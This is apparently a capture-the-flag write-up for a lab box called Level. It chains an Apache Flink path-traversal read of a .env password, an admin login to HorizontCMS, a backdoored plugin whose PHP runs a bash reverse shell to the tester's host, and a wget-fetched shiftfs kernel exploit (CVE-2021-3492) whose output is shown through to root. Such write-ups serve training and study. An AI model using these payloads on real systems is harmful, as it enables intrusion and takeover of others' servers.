

# Level

```
# nmap -sCV -p- level.htb
Nmap scan report for level.htb (10.129.95.161)
Host is up (0.40s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE          VERSION
80/tcp   open  ssl/http?
8081/tcp open  blackice-icecap?
```

Apache Flink on port 8081 is vulnerable to path traversal. Metasploit has a module for it. We can read the .env file in the webroot:
```
msf6 auxiliary(scanner/http/apache_flink_jobmanager_traversal) > run

[*] Downloading /var/www/html/.env ...
[+] Downloaded /var/www/html/.env (125 bytes)
[+] File /var/www/html/.env saved in: /home/wil/.msf4/loot/20210727012858_default_10.129.173.192_apache.flink.job_666566.txt                                                                                        
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


$ cat /home/wil/.msf4/loot/20210727012858_default_10.129.173.192_apache.flink.job_666566.txt                                                              
DB_HOST=127.0.0.1
DB_CONNECTION=mysql
DB_USERNAME=hcms
DB_PASSWORD=N>2sM4^R_j>g)cfe
DB_DATABASE=hcms
HCMS_ADMIN_PREFIX=admin
```
These credentials are valid on port 80 on HorizontCMS:
`admin:N>2sM4^R_j>g)cfe`



With admin privileges we can add a malicous plugin, here we used a modified [GoogleMaps](https://github.com/ttimot24/GoogleMaps) plugin with a reverse shell: 

```bash
$ cat messages.php 
<?php 

$shell = exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.27/9000 0>&1'");

return [
        'successfully_added_location' => $shell,//'Location added succesfully!',
        'successfully_deleted_location' => 'Location deleted succesfully!',
        'successfully_set_center' => 'Location is successfully set as map center!'
];
```
Install the plugin in the following menus: `Themes & Apps / Plugin / Upload new plugin`
Install and activate it
Click on `Google Maps (top menu) / Add location` / Set arbitrary content in fields then save.

```bash
$ nc -nvlp 9000
Listening on [0.0.0.0] (family 2, port 9000)
Connection from 10.129.173.192 60640 received!
bash: cannot set terminal process group (1038): Inappropriate ioctl for device
bash: no job control in this shell
albert@level:/var/www/html$
albert@level:/home/albert$ cat user.txt
HTB{0utd4t3d_cms_1s_n0_g00d}
```

By shorty searching for privilege escalation paths, we can notice the operating system is vulnerable to two consecutive LPE (Local Privilege Escalation) vulnerabilities:

* A double free vulnerability in Ubuntu shiftfs driver ([CVE-2021-3492](https://www.synacktiv.com/publications/exploitation-of-a-double-free-vulnerability-in-ubuntu-shiftfs-driver-cve-2021-3492.html)), found by our team mate VDehors and submitted to [Pwn2Own Vancouver 2021](https://twitter.com/thezdi/status/1380233495851712512).
* Ubuntu OverlayFS LPE ([CVE-2021-3493](https://github.com/briskets/CVE-2021-3493)).
```
albert@level$ uname -a
Linux level 5.4.0-48-generic #52-Ubuntu SMP Thu Sep 10 10:58:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
      
albert@level$  cat /etc/os-release 
NAME="Ubuntu"
VERSION="20.04.1 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.1 LTS"
VERSION_ID="20.04"
[...]
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal

albert@level$ /sbin/sysctl -n 'kernel.unprivileged_userns_clone'
1
```
As the [exploit](https://github.com/synacktiv/CVE-2021-3492/tree/master/exploit) written by Vdehors for his vulnerability CVE-2021-3492 was only targetting Linux kernel versions 5.8, he slightly modified his exploit in order to also support Linux kernel versions 5.4. In the initial exploit, the synchronization between kernel and userspace was done using a new feature of userfaultfd called write-protect. This feature is not present in kernel versions 5.4 so this part of the exploit has been replaced with the legacy userfaultfd page faults. To be able to preempt the kernel for each `copy_to_user()`, the userland structure is placed on two different pages and these pages are untouched to trigger the *userfaultfd* wakeup.

Finally, we can use his exploit to solve the box:
```
albert@level:/tmp/foo$ wget "10.10.14.65:8080/exploit" 
albert@level:/tmp/foo$ mkdir symbols
albert@level:/tmp/foo/$ wget "10.10.14.65:8080/System.map-5.4.0-48-generic" -O symbols/System.map-5.4.0-48-generic
albert@level:/tmp/foo$ chmod +x exploit 
albert@level:/tmp/foo$ ./exploit 
################################################
#                EXPLOIT SETUP                 #
################################################
Kernel version 5.4.0-48-generic
0xffffffff81085460 set_memory_x
0xffffffff810aba30 proc_doulongvec_minmax
0xffffffff810cdb40 commit_creds
0xffffffff810cdec0 prepare_kernel_cred
0xffffffff819f7dc0 devinet_sysctl_forward
0xffffffff82654040 debug_table
Pinning on CPU 0
Creating new USERNS
Configuring UID/GID map for user 1000/1000
Creating new MOUNTNS
Mounting tmpfs on d1
Mounting shiftfs on d2
Creating shiftfs file
Shiftfs FD : 4
Remaped 1 page at 0x100000
Remaped 1 page at 0x101000
Allocated 2 pages at 0x100000 (ret:0x7f9a406d1740)
Allocated 2 storage pages at 0x55874bb1b000 (ret:0)
UFFD FD: 5
Registering new mapping watch = 0
Registering new mapping watch = 0
################################################
#           PRIMITIVES STABILISATION           #
################################################
Triggering the vulnerability...
UFFD poll returned
WP Fault handling 1
Recreate mapping for page 1
Backuping page data 1
Unmap page 1
Remaped 1 page at 0x101000
Registering new mapping watch = 0
Unblock page 0
[...]
Entering NET namespace...
Namespace NET fd = 6
Setns returned 0
Leaking payload address...
Table is at ffff8ac12fa1c008
Dumping global sysctl...
global_sysctl_victim[0] = 0xffffffff87b5f238
[...]
global_sysctl_victim[7] = 0x0000000000000000
Patching global sysctl...
global_sysctl_victim[0] = 0xffffffff87b5f238
[...]
global_sysctl_victim[7] = 0x0000000000000000
################################################
#                 SYSTEM REPAIR                #
################################################
Checking R/W primitives
Current header is 000000000000ffff
Restored header is ffff8ac136194000
Restoring global sysctl...
################################################
#              SHELLCODE INJECTION             #
################################################
Setting buffer to RWX
Writting shellcode at ffff8ac12fa1cf08
Writting prepare_kernel_cred at ffff8ac12fa1cef8
Writting commit_cred at ffff8ac12fa1cef0
Executing shellcode...
################################################
#                 YOU ARE ROOT                 #
################################################
root@level:/tmp/foo# id
uid=0(root) gid=0(root) groups=0(root)

root@level:/tmp/foo# cat /root/root.txt 
HTB{br0k3n_st0r4g3}
```